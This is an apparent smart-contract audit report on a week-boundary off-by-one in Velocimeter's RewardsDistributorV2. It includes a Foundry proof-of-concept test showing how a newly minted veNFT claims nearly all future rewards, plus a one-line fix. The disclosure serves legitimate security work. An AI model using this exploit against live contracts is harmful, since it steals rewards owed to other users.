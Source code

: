 ```solidity
```
`ve_supply[t]` should be only updated when `t` week has end (`t + 1 weeks <= block.timestamp`) . However, `ve_supply[t]` could be updated incorrectly when `block.timestamp % 1 weeks` is `0`. If a `veNFT` is created immediately after `checkpoint_total_supply‎()` is called, its balance will not be accounted for in `ve_supply[t]`. A malicious user could exploit this flaw to steal future distribution rewards.

Copy below codes to [RewardsDistributorV2.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/RewardsDistributorV2.t.sol) and run `forge test --match-test testStealFutureDistributeReward`
```solidity
    function testStealFutureDistributeReward() public {
        initializeVotingEscrow();

        vm.warp((block.timestamp + 1 weeks) / 1 weeks * 1 weeks); 
        minter.update_period();
        //@audit-info malicious can mint a new nft (tokenId == 3) to steal future distribution reward
        flowDaiPair.approve(address(escrow), 2e18);
        escrow.create_lock(2e18,50 weeks);
        //@audit-info 10e18 DAI was deposited into distributor
        DAI.transfer(address(distributor), 10e18);
        vm.warp(block.timestamp + 1 weeks);
        //@audit-info update_period() is called to update  `tokens_per_week`
        minter.update_period();
        //@audit-info the owner of token3 is eligible to claim almost all distribution reward
        assertApproxEqAbs(distributor.claimable(3),  10e18, 0.2e18);
        distributor.claim(3);
        //@audit-info distributor doesn't have enough DAI for token1 to claim
        assertLt(DAI.balanceOf(address(distributor)), 0.2e18);
        assertEq(distributor.claimable(1), 5e18);
        vm.expectRevert();
        distributor.claim(1);
    }
```
## Impact
A malicious user could create a new veNFT to steal future distribution rewards, leaving other eligible users without any rewards to claim.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/RewardsDistributorV2.sol#L149
## Tool used

Manual Review

## Recommendation
Make sure that `ve_supply[t]` should be only updated when `t` week has end (`t + 1 weeks <= block.timestamp`):
```diff
    function _checkpoint_total_supply() internal {
        address ve = voting_escrow;
        uint t = time_cursor;
        uint rounded_timestamp = block.timestamp / WEEK * WEEK;
        IVotingEscrow(ve).checkpoint();

        for (uint i = 0; i < 20; i++) {
-           if (t > rounded_timestamp) {
+           if (t >= rounded_timestamp) {
                break;
            } else {
```